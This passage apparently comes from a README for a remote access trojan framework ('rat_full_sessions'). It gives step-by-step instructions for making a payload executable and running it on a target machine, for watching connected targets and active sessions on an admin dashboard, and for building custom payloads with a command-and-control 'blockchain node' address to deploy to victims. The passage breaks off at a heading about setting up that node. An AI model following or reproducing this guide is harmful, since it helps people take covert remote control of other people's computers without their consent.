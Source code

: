 ```bash
# Navigate to where you saved the payload
cd /path/to/payload

# Make it executable
chmod +x fsdp_payload_linux_x64_12345678.py

# Run the payload
python3 fsdp_payload_linux_x64_12345678.py
```

---

### Step 6: Monitor Connections

Once the payload is running on the target:

1. **Go back to Admin UI Dashboard**
2. **Check "Total Targets"** - Should show 1 or more
3. **Check "Active Sessions"** - Will show active connections
4. **View "Recent Targets"** section - Shows connected machines

---

## Alternative: Generate Payload Manually (Without UI)

If you want to generate payloads without the web UI, you can use the payload generator directly:

### Method 2: Using Python Script

1. **Navigate to the repository:**
   ```bash
   cd rat_full_sessions/fsdp/test_payloads
   ```

2. **Copy the template payload:**
   ```bash
   cp fsdp_payload_enhanced.py my_custom_payload.py
   ```

3. **Edit the configuration** (open `my_custom_payload.py` in a text editor):
   ```python
   # At the top of the file, modify these settings:
   DEBUG = True  # Set to False for production
   BLOCKCHAIN_NODE = "192.168.1.100:5000"  # Your blockchain node
   ```

4. **Save and deploy** to target machine

---

## Setting Up Blockchain Node (Required)

Before payloads can connect, you need a blockchain validator node running:

### Quick Blockchain Node Setup
